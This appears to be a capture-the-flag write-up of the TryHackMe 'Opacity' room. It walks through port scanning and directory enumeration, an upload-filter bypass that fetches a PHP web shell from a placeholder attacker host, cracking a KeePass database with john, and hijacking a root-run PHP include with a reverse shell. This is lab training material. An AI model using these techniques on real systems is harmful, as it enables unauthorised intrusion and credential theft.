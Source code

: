 ```yaml
---
title: "Opacity"
date: 2025-02-14
image: /assets/img/Opacity/Opacity_image.jpg
description: Writeup of the TryHackMe-CTF Opacity
categories: [Tryhackme, Easy]
tags: [linux, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Opacity</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Opacity is a Boot2Root made for pentesters and cybersecurity enthusiasts.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/opacity">https://tryhackme.com/room/opacity</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Opacity.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.42.149                       
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:23 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.043s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT    STATE SERVICE
  22/tcp  open  ssh
  80/tcp  open  http
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Nmap done: 1 IP address (1 host up) scanned in 35.25 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,139,445 10.10.42.149
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:24 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.039s latency).

  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
  |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
  |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
  80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | http-title: Login
  |_Requested resource was login.php
  139/tcp open  netbios-ssn Samba smbd 4.6.2
  445/tcp open  netbios-ssn Samba smbd 4.6.2
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  | smb2-time: 
  |   date: 2025-02-14T11:24:26
  |_  start_date: N/A
  |_clock-skew: -6s
  |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```
From here I proceeded the analysis port by port.

## Port 445 Analysis

I analyzed the service with enum4linux, but didn't found any leads to proceed with.

## Port 80 Analysis

The webserver had a login page:

![Webserver Login](/assets/img/tryhackme/Opacity/thm_opacity_1.jpg)

Lacking information about potential credential combinations, I proceeded with a directory enumeration:
```bash
$ gobuster dir --url http://10.10.42.149/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.42.149/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /css                  (Status: 301) [Size: 310] [--> http://10.10.42.149/css/]
  /cloud                (Status: 301) [Size: 312] [--> http://10.10.42.149/cloud/]
```

### /cloud Analysis

Navigating to `/cloud` revealed an upload dialog:

![Webserver Upload](/assets/img/tryhackme/Opacity/thm_opacity_2.jpg)

Above the input field, a small text read `External Link`. I started an HTTP server using Python and provided the URL for a test image. The image was displayed on the webpage, and the direct link was revealed. I continued trying to upload a webshell. After testing several input filter bypasses I was able to upload a php shell with the following bypass:
```html
http://[attackerip]/shell.php#test.jpg
```

![Webserver Uploaded Webshell](/assets/img/tryhackme/Opacity/thm_opacity_3.jpg)

```bash
$ whoami      
  www-data
$ cd /home
$ ls
  sysadmin
$ cd sysadmin
$ ls
  local.txt
  scripts
$ cat local.txt
  cat: local.txt: Permission denied
```

## Port ### Analysis

## Privilege Escalation sysadmin

I searched for files which belonging to `sysadmin` which revealed an interesting file:
```bash
www-data@opacity:/home/sysadmin$ find / -user sysadmin -type f 2>/dev/null
/opt/dataset.kdbx
```

After downloading the file I used `john` for cracking the password:

```bash
$ keepass2john dataset.kdbx > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  [removed]        (dataset)     
  Session completed.
```

With the password I was able to open the Keepass file and found the password for user `sysadmin`. 

![Keepass](/assets/img/tryhackme/Opacity/thm_opacity_4.jpg)

I successfully connected using `ssh`:

```bash
sysadmin@opacity:~$ cat local.txt 
  [removed]
```

## Privilege Escalation root

The user `sysadmin` had a folder called `scripts` in his home directory. The permissions are interesting:
```bash
drwxr-xr-x 2 sysadmin root     4096 Feb 14 17:51 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

This allowed the sysadmin user to modify anything within the lib directory, while `script.php` was executed with root privileges. I searched for a connection inside of the `script.php` and found the following command:
```php
require_once('lib/backup.inc.php');
```

I renamed the `backup.inc.php` file and created a new one which was a php reverse shell. Shortly after, I received an incoming connection:

```bash
# whoami
	root
# cd /root
# ls
  proof.txt
  snap
# cat proof.txt
  [removed]
```

solved! :)
